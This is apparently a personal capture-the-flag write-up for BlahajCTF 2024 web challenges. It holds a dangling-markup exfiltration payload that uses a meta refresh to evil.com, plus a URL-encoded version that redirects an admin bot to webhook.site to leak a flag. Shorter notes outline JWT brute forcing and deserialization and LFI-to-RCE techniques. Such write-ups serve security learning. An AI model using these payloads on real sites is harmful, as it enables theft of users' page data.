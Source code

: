 ```python
@app.route('/adminbot', methods=['POST'])  
def adminbot():  
    url = request.form.get('url')  
  
    if not url or not url.startswith('http://'+ipport+'/'):  
        return "Invalid URL. It must start with 'http://"+ipport+"/'.", 400  
  
    command = f"chromium --virtual-time-budget=10000 --no-sandbox --headless --disable-gpu --timeout=5000 {shlex.quote(url)}"  
    subprocess.Popen(command, shell=True)  
    return "Admin bot will see your request soon"
```
For this challenge, I drew some inspiration from Insecure content, where I had previously tried a form of [dangling markup](https://book.hacktricks.xyz/pentesting-web/dangling-markup-html-scriptless-injection). Due to the CSP, images can only originate from the server, so using images to exfiltrate data won't work. However, the website also suggests using `meta` tags to change the window location, which fits with redirects now being allowed. By testing their payload, we see it indeed does work
```html
<meta http-equiv="refresh" content='60; URL=http://evil.com/log.cgi?
```
> Interestingly, double quotes did not seem to work. 

```html
...
<p>Hello, <meta http-equiv="refresh" content="60; URL=http://evil.com/log.cgi?! I hope you like flags! In fact, here is a flag: blahaj{[FLAG REDACTED]}. Sadly, only the admin bot can see it :" (<p="">
        </p>
```
Thus, we can craft a payload that redirects to our website and extract the flag from there
`http://securecontent.c1.blahaj.sg/greet?name=%3Cmeta+http-equiv%3D%22refresh%22+content%3D%275%3BURL%3Dhttps%3A%2F%2Fwebhook.site%2F...%3F`
![[Pasted image 20241127123149.png]]
`blahaj{D4nG13_tH3_MArKuP}`
## Blahaj fanpage
Honestly, I did not find this challenge fun as it was quite guessy.
TODO: Tldr is brute forcing jwt secret with rockyou list.
## Data compressor
TODO: Tldr is RCE via pyyaml deserialize
# Post ctf lessons
Official solutions at https://github.com/blahajctf/blahajctf24-public
## Screenshooter
We are given LFI by by means of screenshots using the `file://` protocol. Use that to leak information to construct flask debug pin for RCE.
## Process killer panel
Php deserialize RCE(Or a POP chain?). https://book.hacktricks.xyz/pentesting-web/deserialization#php
Vulnerability comes from `MainClass::importProcesses()` which uses `unserialize` on user data.
## User management system
I don't quite understand but it is something to do with invalid string size being stored when strings are replaced from `chr(0)+"*"+chr(0)`(Prefix to php protected fields?) to `\0\0\0`  to be stored in a db and the reverse happening when unserializing, leading to the object being unserialized incorrectly? https://blog.hacktivesecurity.com/index.php/2019/10/03/rusty-joomla-rce/  
## SSTI Golf
https://rwandi-ctf.github.io/BlahajCTF2024/SSTI-Golf/